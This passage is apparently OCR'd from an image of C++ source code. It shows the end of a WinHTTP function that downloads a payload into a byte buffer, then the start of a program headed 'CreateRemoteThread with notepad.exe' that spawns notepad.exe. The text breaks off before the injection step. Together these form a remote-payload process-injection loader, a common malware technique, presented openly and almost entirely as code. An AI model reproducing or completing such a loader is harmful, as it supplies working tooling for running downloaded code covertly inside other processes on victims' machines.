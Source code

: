 ```
        hRequest,
        WINHTTP_NO_ADDITIONAL_HEADERS,
        0,
        WINHTTP_NO_REQUEST_DATA,
        0,
        0,
        0);

    // receive response
    WinHttpReceiveResponse(
        hRequest,
        NULL);

    // read the data
    std::vector<BYTE> buffer;
    DWORD bytesRead = 0;

    do {

        BYTE temp[4096]{};
        WinHttpReadData(hRequest, temp, sizeof(temp), &bytesRead);

        if (bytesRead > 0) {
            buffer.insert(buffer.end(), temp, temp + bytesRead);
        }

    } while (bytesRead > 0);

    // close all the handles
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    return buffer;
}
```

C++ CreateRemoteThread with notepad.exe:

```
#include <Windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include <conio.h>

#pragma comment(lib, "winhttp.lib")

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename);

int main()
{
    // create startup info struct
    LPSTARTUPINFOW startup_info = new STARTUPINFOW();
    startup_info->cb = sizeof(STARTUPINFOW);
    startup_info->dwFlags = STARTF_USESHOWWINDOW;

    // create process info struct
    PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

    // null terminated command line
    wchar_t cmd[] = L"notepad.exe\0";

    // create process
```